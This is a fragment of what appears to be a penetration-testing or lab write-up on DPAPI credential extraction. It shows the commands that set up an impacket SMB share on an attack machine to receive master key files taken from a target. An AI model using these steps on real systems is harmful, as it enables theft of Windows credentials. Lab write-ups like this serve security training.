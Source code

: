 Then we also have the master key file:
![Backup File](/assets/masterkeyfile.png)

### DPAPI Credential Extraction
1. Set up an SMB share on our attack machine:
```bash
mkdir share
impacket-smbserver share ./share -smb2support
```

![Smb Access](/assets/createsmb.png)
